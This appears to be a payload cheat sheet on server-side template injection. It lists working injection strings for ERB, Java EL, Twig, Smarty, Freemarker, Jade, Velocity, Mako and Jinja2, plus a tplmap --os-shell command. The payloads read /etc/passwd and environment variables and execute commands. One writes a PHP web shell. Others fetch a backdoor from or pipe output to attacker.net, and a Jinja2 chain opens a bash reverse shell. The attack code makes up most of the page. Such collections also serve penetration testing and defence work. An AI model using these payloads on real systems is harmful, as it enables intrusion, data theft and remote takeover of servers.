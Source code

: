 # Templates Injections

> Template injection allows an attacker to include template code into an existant (or not) template.     

Recommended tool: [Tplmap](https://github.com/epinna/tplmap)
e.g:
```
./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
```


## Ruby
### Basic injection
```python
<%= 7 * 7 %>
```

### Retrieve /etc/passwd
```python
<%= File.open('/etc/passwd').read %>
```


## Java
### Basic injection
```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```

### Retrieve the system’s environment variables.
```java
${T(java.lang.System).getenv()}
```

### Retrieve /etc/passwd
```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

## Twig
### Basic injection
```python
{{7*7}}
{{7*'7'}} would result in 49
```

### Template format
```python
$output = $twig > render (
  'Dear' . $_GET['custom_greeting'],
  array("first_name" => $user.first_name)
);

$output = $twig > render (
  "Dear {first_name}",
  array("first_name" => $user.first_name)
);
```

### Code execution
```python
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```


## Smarty
```python
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

## Freemarker
Default functionality.
```python
<#assign
ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
```

## Jade / Codepen
```python
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

## Velocity
```python
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

## Mako
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```


## Jinja2
[Official website](http://jinja.pocoo.org/)
> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.


### Basic injection
```python
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
```

Jinja2 is used by Python Web Frameworks such as Django or Flask.
The above injections have been tested on Flask application.
### Template format
```python
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}

```

### Dump all used classes
```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

### Dump all config variables
```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

### Read remote file
```python
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

### Write into remote file
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

### Remote Code Execution via reverse shell
Listen for connexion
```
nv -lnvp 8000
```
Inject this template
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

## Thanks to
 * [https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/)
 * [Yahoo! RCE via Spring Engine SSTI](https://hawkinsecurity.com/2017/12/13/rce-via-spring-engine-ssti/)
 * [Ruby ERB Template injection - TrustedSec](https://www.trustedsec.com/2017/09/rubyerb-template-injection/)
 * [Gist - Server-Side Template Injection - RCE For the Modern WebApp by James Kettle (PortSwigger)](https://gist.github.com/Yas3r/7006ec36ffb987cbfb98)
 * [PDF - Server-Side Template Injection: RCE for the modern webapp - @albinowax](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
 * [VelocityServlet Expression Language injection](https://magicbluech.github.io/2017/12/02/VelocityServlet-Expression-language-Injection/)
